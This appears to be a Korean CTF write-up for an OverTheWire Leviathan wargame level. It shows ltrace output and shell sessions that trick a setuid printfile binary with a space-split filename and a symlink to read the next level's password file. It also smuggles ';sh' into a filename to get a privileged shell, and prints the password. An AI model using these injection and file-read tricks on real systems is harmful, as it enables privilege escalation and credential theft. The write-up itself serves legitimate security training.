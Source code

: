 ```
\을 통해 공백을 읽히게 할꺼임. 

즉, 첫 인자를 access 함수를 통과할 수 있는 파일을 주면은
공백 뒤에 있는 심볼릭 링크 파일은 검사를 하지 않고 넘어가게 됨.
```
```sh
leviathan2@leviathan:~$ touch /tmp/test/abc\ def
leviathan2@leviathan:~$ ltrace ./printfile /tmp/test/abc\ def
__libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>
access("/tmp/test/abc def", 4)                                                                     = 0
snprintf("/bin/cat /tmp/test/abc def", 511, "/bin/cat %s", "/tmp/test/abc def")                    = 26
geteuid()                                                                                          = 12002
geteuid()                                                                                          = 12002
setreuid(12002, 12002)                                                                             = 0
system("/bin/cat /tmp/test/abc def"abc
/bin/cat: def: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                             = 256
+++ exited (status 0) +++
leviathan2@leviathan:~$  ./printfile /tmp/test/abc\ def
abc
/bin/cat: def: No such file or directory
```
```system("/bin/cat /tmp/test/abc def"abc``` 가 되므로 /tmp/test/abc와 def 파일을 출력하게 되는 것.
```sh
leviathan2@leviathan:~$ mkdir /tmp/test
leviathan2@leviathan:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/test/ok
leviathan2@leviathan:~$ ls -al /tmp/test/ok
lrwxrwxrwx 1 leviathan2 root 30 Jan 18 12:27 /tmp/test/ok -> /etc/leviathan_pass/leviathan3
leviathan2@leviathan:~$ touch /tmp/test/ok\ bye
leviathan2@leviathan:~$ ./printfile /tmp/test/ok\ bye
Ahdiemoo1j
/bin/cat: bye: No such file or directory
```

또 다른 풀이는 쉘을 따는 것이 있었음!
```
touch '/tmp/dir1/file1;sh'로 파일을 생성하고 이 파일을 읽으면

./prinfile '/tmp/dir1/file1;sh' -> /bin/cah /tmp/dir1/file1;sh

이렇게 되므로 세미콜론에 의해 leviathan3의 uid로 sh를 실행함.
```
```
password : Ahdiemoo1j 
```
